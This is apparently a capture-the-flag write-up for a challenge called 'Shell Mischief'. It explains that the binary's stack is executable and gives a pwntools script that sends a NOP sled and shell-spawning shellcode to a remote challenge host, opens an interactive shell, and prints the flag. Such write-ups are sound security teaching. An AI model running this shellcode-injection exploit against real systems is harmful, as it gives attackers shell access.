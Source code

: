 # Shell Mischief

## Analysis
The stack of the binary was executable so we can place shellcode and execute it.

## Solution
```python
from pwn import *

#p = process("./vuln")
p = remote("34.125.199.248", 1234)

payload = b"\x90" * 128
payload += asm(shellcraft.sh())
p.sendline(payload)

p.clean()

p.interactive()
```

## Flag
```
OSCTF{u_r_b3rry_mischievous_xD}
```
